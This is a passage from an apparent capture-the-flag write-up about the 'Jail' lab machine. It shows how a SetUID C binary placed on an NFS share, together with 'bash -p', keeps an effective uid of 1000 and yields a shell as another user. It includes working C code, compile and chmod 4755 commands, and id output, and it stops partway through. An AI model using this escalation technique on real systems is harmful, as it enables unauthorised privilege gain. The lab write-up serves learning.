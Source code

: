 ```
bash-4.2$ $ ./c
uid=99(nobody) gid=99(nobody) euid=1000(frank) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```

The `[r]uid` is 99, but the `euid` is 1000.

If I try to get a shell from this, I have to be careful. For example, just calling `bash`:

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    setuid(1000);
    execve("/bin/bash", NULL, NULL);
    return 0;
}
```

I’ll compile that and set it SetUID:

```
oxdf@hacky$ gcc d.c -o /mnt/nfsshare/d
oxdf@hacky$ chmod 4755 /mnt/nfsshare/d
```

Still, this will return all nobody:

```
bash-4.2$ $ ./d
bash-4.2$ $ id
uid=99(nobody) gid=99(nobody) groups=99(nobody) context=system_u:system_r:unconfined_service_t:s0
```

If it were `setuid(0)`, then it would work fine (assuming the process had permission to do that), as then it changes all three ids to 0. But as a non-root user, this just sets the `euid` to 1000 (which is already was), and then calls `sh`. But `sh` is `bash` on Jail. And when `bash` starts with `ruid` of 99 and `euid` of 1000, it will drop the `euid` back to 99.

To fix this, I’ll call `bash -p`:

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>

int main(void) {
    char *const paramList[10] = {"/bin/bash", "-p", NULL};
    setuid(1000);
    execve(paramList[0], paramList, NULL);
    return 0;
}
```

This time the `euid` is there:
